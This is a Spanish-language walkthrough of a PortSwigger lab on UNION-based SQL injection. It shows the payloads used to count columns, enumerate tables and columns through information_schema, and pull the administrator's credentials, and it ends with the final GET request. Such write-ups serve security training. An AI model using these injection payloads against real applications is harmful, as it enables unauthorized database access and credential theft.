





# Lab 9: SQL injection attack, listing the database contents on non-Oracle databases

**Nivel:** Practitioner
**Estado:** ✅ Solved

## Descripción

A diferencia del laboratorio 6, aquí **no se conoce de antemano** el nombre de la tabla que almacena las credenciales ni el de sus columnas. Hay que descubrirlos consultando el catálogo del sistema de la base de datos antes de poder extraer la información.

## Metodología

1. Se confirmó el número de columnas (`ORDER BY 2--`) y que la primera columna aceptaba texto (`UNION SELECT 'a',NULL--`).

   

2. **Enumeración de tablas:** se consultó la tabla de sistema `information_schema.tables`, disponible en MySQL, SQL Server y PostgreSQL, para listar todas las tablas de la base de datos:
   ```
   Accessories' UNION SELECT table_name,NULL FROM information_schema.tables--
   ```
   Entre los resultados se identificó la tabla `users_cqckwv` (PortSwigger agrega sufijos aleatorios a los nombres para evitar que se puedan adivinar).

   

3. **Enumeración de columnas:** una vez conocido el nombre de la tabla, se consultó `information_schema.columns` filtrando por esa tabla:
   ```
   Accessories' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_cqckwv'--
   ```
   Se identificaron las columnas `username_wsckto` y `password_hackvh`.

   

4. **Extracción final** con los nombres exactos descubiertos:
   ```
   Accessories' UNION SELECT username_wsckto,password_hackvh FROM users_cqckwv--
   ```

   

## Payload final

```
GET /filter?category=Accessories'+UNION+SELECT+username_wsckto,password_hackvh+FROM+users_cqckwv--
```

## Resultado

Se obtuvo el usuario `administrator` junto con su contraseña, con la que se inició sesión exitosamente.



## Conclusión

`information_schema` es el mecanismo estándar para enumerar el esquema de una base de datos (tablas y columnas) cuando el atacante no tiene conocimiento previo del modelo de datos — un paso de reconocimiento imprescindible en cualquier ataque UNION real, donde los nombres de tablas y columnas casi nunca se conocen de antemano.
